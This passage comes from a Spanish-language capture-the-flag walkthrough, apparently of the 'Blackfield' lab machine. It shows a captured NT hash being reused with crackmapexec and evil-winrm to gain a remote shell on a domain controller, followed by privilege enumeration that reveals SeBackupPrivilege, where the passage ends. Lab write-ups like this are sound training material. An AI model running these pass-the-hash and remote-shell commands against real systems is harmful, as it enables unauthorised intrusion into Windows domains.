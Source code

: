 9658d1d1dcd9250115e2205d9f48400d tambien obtuvimos el NT del usuario Admin del dominio
pero son invalidas, ahora vamos a validar el NT del usuario svc_backup

## [](#header-2)SHELL svc_backup

    crackmapexec smb 10.10.10.192 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'
    SMB     10.10.10.192    445    DC01    [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
    SMB     10.10.10.192    445    DC01    [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d

el hash NT es correcto, sirve para conectarnos a la maquina y conseguir una sesion remota de comandos

## [](#header-2)Vamos a comprobar con winrm

    crackmapexec winrm 10.10.10.192 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'

    SMB         10.10.10.192    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
    HTTP        10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
    WINRM       10.10.10.192    5985   DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)

y nos muestra un Pwned!! esto quiere decir que podemos conectarnos con evil-winrm

    evil-winrm -i blackfield.local -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'

    Evil-WinRM shell v3.4

    Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

    Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami
     blackfield\svc_backup

esta seria la primera parte de la maquina, tenemos ejecucion remota de comandos y ya podemos ver la flag
(user.txt) esta ubicada en 

    C:\Users\svc_backup\Desktop\users.txt

## [](#header-2)Escalada de Privilegios

*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /priv

    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                Description                    State
    ============================= ============================== =======
    SeMachineAccountPrivilege     Add workstations to domain     Enabled
    SeBackupPrivilege             Back up files and directories  Enabled
    SeRestorePrivilege            Restore files and directories  Enabled
    SeShutdownPrivilege           Shut down the system           Enabled
    SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
